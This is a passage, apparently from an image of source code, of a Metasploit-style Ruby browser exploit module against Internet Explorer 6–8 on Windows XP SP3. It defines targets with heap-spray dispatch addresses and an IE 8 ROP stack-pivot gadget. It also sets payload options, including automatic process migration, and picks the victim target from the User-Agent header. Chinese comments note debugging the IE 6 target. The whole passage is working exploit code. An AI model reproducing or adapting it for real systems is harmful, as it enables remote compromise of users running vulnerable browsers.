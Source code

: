 ```ruby
				],
			'Payload'        =>
				{
					'Space'    => 1024,
				},
			'DefaultOptions'  =>
				{
					'EXITFUNC'             => "process",
					'InitialAutoRunScript' => 'migrate -f',
				},
			'Platform'       => 'win',
			'Targets'        =>
				[
					[ 'Automatic', {} ],
					[
						'IE 6 on Windows XP SP3',     #环境适应版本，应该按照这个来调试
						{
							'Rop' => false,
							'DispatchDst' => 0x0c0c0c0c
						}
					],
					[
						'IE 7 on Windows XP SP3',
						{
							'Rop' => false,
							'DispatchDst' => 0x0c0c0c0c
						}
					],
					[
						'IE 8 on Windows XP SP3',
						{
							# xchg ecx,esp
							# or byte ptr [eax],al
							# add byte ptr [edi+5Eh],bl
							# ret 8
							# From IMAGEHLP
							'Rop' => true,
							'StackPivot' => 0x76C9B4C2,
							'DispatchDst' => 0x0c0c1be4
						}
					],
				],
			'Privileged'     => false,
			'DisclosureDate' => "Jan 10 2012",
			'DefaultTarget'  => 0))

		register_options(
			[
				OptBool.new('OBFUSCATE', [false, 'Enable JavaScript obfuscation', false])
			], self.class)

	end

	def get_target(request)  #根据UA头，进行目标浏览器识别
		agent = request.headers['User-Agent']
		vprint_status("Request from: #{agent}")

		if agent =~ /NT 5\.1/ and agent =~ /MSIE 6\.0/
			#Windows XP SP3 + IE 6.0
			return targets[1]
		elsif agent =~ /NT 5\.1/ and agent =~ /MSIE 7\.0/
			#Windows XP SP3 + IE 7.0
			return targets[2]
```